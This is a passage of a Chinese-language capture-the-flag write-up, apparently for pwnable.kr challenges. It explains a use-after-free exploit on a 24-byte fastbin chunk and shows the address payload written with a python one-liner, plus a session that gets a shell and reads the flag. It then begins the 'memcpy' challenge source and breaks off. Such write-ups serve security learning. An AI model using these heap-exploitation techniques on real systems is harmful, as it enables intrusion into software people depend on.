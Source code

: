 大小为24字节，属于fastbin。执行delete之后，如果case2中分配的空间大小为24字节，就可以重新分配到这一块内存区域。

  

**payload**

  

uaf@prowl:~$ python -c 'print "\x48\x15\x40\x00\x00\x00\x00\x00"'>/tmp/uaf_exp1
uaf@prowl:~$ ./uaf 24 /tmp/uaf_exp1
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2          #分配两次，因为程序先delete m,后delete w，只分配一次会先分配到w上面，而case1是先执行m->introduce()。
your data is allocated
1. use
2. after
3. free
1
$ ls
flag  uaf  uaf.cpp
$ cat flag
yay_f1ag_aft3r_pwning

  

## memcpy

  

### 题目描述

  

// compiled with : gcc -o memcpy memcpy.c -m32 -lm
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <sys/mman.h>
#include <math.h>

unsigned long long rdtsc(){
        asm("rdtsc");
}

char* slow_memcpy(char* dest, const char* src, size_t len){
	int i;
	for (i=0; i<len; i++) {
		dest[i] = src[i];
	}
	return dest;
}
